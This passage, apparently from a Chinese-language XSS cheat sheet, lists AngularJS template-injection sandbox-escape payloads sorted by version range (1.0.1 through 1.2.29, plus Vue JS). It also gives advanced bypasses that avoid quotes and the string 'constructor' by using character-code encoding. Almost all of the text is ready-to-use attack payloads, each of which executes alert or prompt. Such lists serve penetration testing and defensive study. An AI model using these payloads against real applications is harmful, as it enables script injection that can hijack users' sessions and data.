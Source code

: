 AngularJS 1.2.24 - 1.2.29

```javascript
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

AngularJS 1.2.19 - 1.2.23

```javascript
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

AngularJS 1.2.6 - 1.2.18

```javascript
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

AngularJS 1.2.2 - 1.2.5

```javascript
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

AngularJS 1.2.0 - 1.2.1

```javascript
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

AngularJS 1.0.1 - 1.1.5 和 Vue JS

```javascript
{{constructor.constructor('alert(1)')()}}
```

### 高级绕过 XSS

AngularJS（无单引号 `'` 和双引号 `"`）由 [@Viren](https://twitter.com/VirenPawar_) 提供

```javascript
{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(97,108,101,114,116,40,49,41))()}}
```

AngularJS（无单引号 `'` 和双引号 `"` 以及字符串 `constructor`）

```javascript
{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,toString()[a].fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}
```

```javascript
{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,toString()[a].fromCodePoint(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}
```
